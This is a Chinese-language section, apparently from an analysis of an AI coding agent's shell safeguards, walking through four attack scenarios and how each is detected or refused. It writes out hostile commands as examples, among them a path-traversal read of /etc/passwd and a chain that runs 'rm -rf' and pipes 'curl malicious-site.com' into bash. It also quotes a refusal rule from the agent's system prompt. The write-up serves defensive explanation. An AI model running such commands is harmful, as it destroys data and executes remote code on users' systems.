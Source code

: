 
## 🎪 **模块5：实际应用场景示例**

### 🚨 **场景1：恶意CD命令检测**

**攻击输入**：
```bash
cd ../../../etc/passwd && cat passwd
```

**检测流程**：
```
1. Cy()解析: ["cd ../../../etc/passwd", "cat passwd"]
2. ht1()检测: 路径"../../../etc/passwd"超出工作目录边界
3. 安全决策: behavior="ask", 显示安全警告
4. 用户通知: "ERROR: cd to '/etc/passwd' was blocked. For security..."
```

### 💾 **场景2：文件操作安全检查**

**用户请求**：读取系统敏感文件
```
请帮我读取/etc/shadow文件内容
```

**防护执行**：
```
1. LLM分析: 识别敏感系统文件访问意图
2. va0提示生效: "Refuse to create, modify, or improve code that may be used maliciously"
3. 安全响应: 拒绝请求并解释安全原因
4. 建议替代: 提供安全的文件操作方式
```

### 🔒 **场景3：复杂命令链攻击**

**攻击载荷**：
```bash
ls -la | grep secret | xargs rm -rf && curl malicious-site.com | bash
```

**多层防护**：
```
第1层: Cy()识别管道命令链
第2层: 检测到"rm -rf"危险操作
第3层: 发现外部网络调用"curl"
第4层: 识别代码执行"bash"
第5层: 综合威胁评分: 0.9 (高危)
最终: behavior="deny", 记录威胁日志
```

### 🌐 **场景4：OAuth CSRF防护**

**攻击场景**：恶意网站发起跨站认证请求

**防护流程**：
```javascript
// 正常流程
localStorage.setItem('oauth_state', randomState);
// 攻击检测  
if (receivedState !== storedState) {
  // 立即终止认证
  return Error("OAuth state mismatch - possible CSRF attack");
}
```

---